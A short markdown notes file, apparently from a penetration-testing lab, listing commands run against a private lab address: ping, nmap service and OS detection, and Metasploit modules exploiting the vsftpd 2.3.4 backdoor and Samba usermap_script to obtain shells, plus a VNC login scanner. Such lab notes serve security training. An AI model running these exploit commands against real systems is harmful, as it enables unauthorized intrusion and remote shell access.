 # Lab commands and notes

> Commands used during the penetration testing lab (lab target IP used in report: 192.168.169.130).
> Do not run these on networks you do not own.

## 1. Basic connectivity
```bash
# ping the target
ping 192.168.169.130

2. Nmap service & OS detection
nmap -sV -O 192.168.169.130
# -sV -> probe open ports to determine service/version
# -O  -> attempt OS detection

3. Metasploit: start console
msfconsole

Exploit FTP (vsftpd backdoor example)
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 192.168.169.130
run
# After gaining a shell:
whoami

Exploit VNC (scanner)
search vnc
use auxiliary/scanner/vnc/vnc_login
set RHOSTS 192.168.169.130
run

Exploit Samba (usermap_script example)
search usermap_script
use exploit/multi/samba/usermap_script
set RHOST 192.168.169.130
run
# After gaining a shell:
whoami

